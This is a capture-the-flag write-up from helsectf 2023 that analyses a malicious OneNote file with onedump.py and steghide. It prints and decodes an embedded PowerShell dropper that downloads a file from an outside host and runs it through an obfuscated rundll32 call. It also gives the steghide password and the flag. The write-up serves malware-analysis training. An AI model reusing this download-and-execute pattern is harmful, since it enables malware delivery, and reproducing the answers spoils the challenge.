

# OneNote To Rule Them All (481)

Onenotefiler har eksplodert i bruk (for skadevarelevering) siste året. Her kommer en enkel liten oppgave for å se hvordan dette fungerer. Anbefaler onedump.py (https://github.com/DidierStevens/Beta/blob/master/onedump.py), men det finnes etterhvert en del andre verktøy. I tillegg kan man løse slike maldocs med OneNote, eller andre verktøy.

Som alle maldocs kommer denne i en zipfil for å tilfredstille AV. Passord: helsectf.

# Writeup

Using the recommended tool:

```
$ python3 onedump.py OneNoteToRuleThemAll.one
File: OneNoteToRuleThemAll.one
 1: 0x00002a40 .PNG 89504e47 0x00012ac5 734ba03175ebc8b8e3ef57bc3ddc9d8e
 2: 0x000167e8 powe 706f7765 0x00000190 caf17ec8d6d574f29693b3dc2ac4f6cd
 3: 0x000169b0 .PNG 89504e47 0x0000054a c2bf462c1311a92660999498f29394bd
 4: 0x00018020 GIF8 47494638 0x00002df5 b035f23c68cc9673e604fe5472f223d2
 5: 0x00023d60 powe 706f7765 0x000001dd a9c2c9e6124219aaa0588c226316a011
 6: 0x00023ff8 powe 706f7765 0x000001dd a9c2c9e6124219aaa0588c226316a011
 7: 0x00024210 .PNG 89504e47 0x00000375 04734c91e7c2c2b29c12ddfdd9f913e2
 8: 0x0002dda0 .PNG 89504e47 0x00000375 04734c91e7c2c2b29c12ddfdd9f913e2
 ```

 Starting to read the powershell scripts there using `onedump <file> -s<number>`. Not finding anything helsereleated until number 5.

```
$ python3 onedump.py OneNoteToRuleThemAll.one -s5 -d 
powershell.exe [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String('CkBlY2hvIG9mZgoKcG93ZXJzaGVsbCBJbnZva2UtV2ViUmVxdWVzdCAtVVJJIGh0dHBzOi8vaGVsc2VjdGYyMDIzLTZhYzRlMWM2ZDg4NTVjMWJkOTZhLTBhMTA4YTJlN2FhNy5jaGFscy5pby8yZTA0ZDBlNzMzNDAxOTBiNDBmM2UzNzg4MmUxZDlkOC5kbGwgLU91dEZpbGUgQzpccHJvZ3JhbWRhdGFcYmlnLmpwZwpjYWxsIHJ1JTFsMzIgQzpccHJvZ3JhbWRhdGFcYmlnLmpwZyxEbGxSZWdpc3RlclNlcnZlcgoKZXhpdAo=\')) > C:\ProgramData\in.cmd&&start /min C:\ProgramData\in.cmd ndl
```
Decode the base64 gives this:
```
@echo off

powershell Invoke-WebRequest -URI https://helsectf2023-6ac4e1c6d8855c1bd96a-0a108a2e7aa7.chals.io/2e04d0e73340190b40f3e37882e1d9d8.dll -OutFile C:\programdata\big.jpg
call ru%1l32 C:\programdata\big.jpg,DllRegisterServer

exit
```
Downloading that file shows that it is actually a JPEG
```
$ file 2e04d0e73340190b40f3e37882e1d9d8.dll
2e04d0e73340190b40f3e37882e1d9d8.dll: JPEG image data, JFIF standard 1.01, resolution (DPI), density 144x144, segment length 16, baseline, precision 8, 3026x216, components 3
```



Using steghide on the image 

```
$ steghide extract -p "lett_oppvarming" -sf 2e04d0e73340190b40f3e37882e1d9d8.jpg

wrote extracted data to "flag.txt".
```

# Flag

```
helsectf{And_so_it_begins_5515fd278619a55933242123111a0745}
```